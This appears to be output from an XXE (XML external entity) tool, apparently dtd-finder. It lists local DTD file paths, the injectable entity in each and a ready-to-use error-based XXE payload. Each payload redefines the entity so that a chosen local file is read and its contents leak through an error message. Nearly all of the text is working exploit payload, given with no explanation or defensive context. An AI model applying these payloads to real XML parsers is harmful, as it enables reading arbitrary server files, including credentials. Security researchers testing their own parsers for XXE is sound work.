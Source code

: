 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/erlang/common.dtd`

**Injectable entity:** `common.entities`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/erlang/common.dtd">

    <!ENTITY % common.entities '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/erlang/common.entities.dtd`

**Injectable entity:** `ISOlat1`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/erlang/common.entities.dtd">

    <!ENTITY % ISOlat1 '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```
